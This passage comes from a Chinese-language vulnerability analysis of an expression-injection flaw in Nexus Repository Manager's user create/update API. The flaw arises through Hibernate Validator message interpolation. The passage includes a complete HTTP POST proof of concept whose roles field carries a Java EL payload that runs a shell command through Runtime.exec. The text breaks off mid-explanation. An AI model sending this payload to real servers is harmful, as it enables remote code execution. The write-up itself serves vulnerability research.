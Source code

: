 
可以找到有多处注解使用的地方,比如说新建用户/更新用户,构造Poc如下

```
POST /service/extdirect HTTP/1.1
Host: 127.0.0.1:8081
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:69.0) Gecko/20100101 Firefox/69.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
X-Nexus-UI: true
NX-ANTI-CSRF-TOKEN: 0.029301195082771514
Content-Type: application/json
X-Requested-With: XMLHttpRequest
Content-Length: 350
Connection: close
Referer: http://127.0.0.1:8081/
Cookie: NX-ANTI-CSRF-TOKEN=0.029301195082771514; NXSESSIONID=7eaf0643-2707-445a-b17d-aedced6db8e5 `{“action”:“coreui_User”,“method”:“create”,“data”:[{“[userId":“3”,“version”:"",“firstName”:“test”,“lastName”:“test”,“email”:"test@test.com](mailto:userId%22:%223%22,%22version%22:%22%22,%22firstName%22:%22test%22,%22lastName%22:%22test%22,%22email%22:%22test@test.com)”,“status”:“active”,“roles”:["$\X{’’.getClass().forName(‘java.lang.Runtime’).getMethods()[6].invoke(’’.getClass().forName(‘java.lang.Runtime’)).exec(‘touch /tmp/rce’)}"],“password”:“admin”}],“type”:“rpc”,“tid”:33}` 
```

![image](../img/52415b95d61771053a72480d83632881.png)

以及其他几处注解使用的地方

![image](../img/dc5cc352e3667292d0f41864986487c8.png)

还有一个问题为什么增加`\A`不会影响表达式的解析呢?

在`/org/hibernate/validator/hibernate-validator/6.1.0.Final/hibernate-validator-6.1.0.Final.jar!/org/hibernate/validator/messageinterpolation/AbstractMessageInterpolator.class`对传入的字符串进行了两次处理,
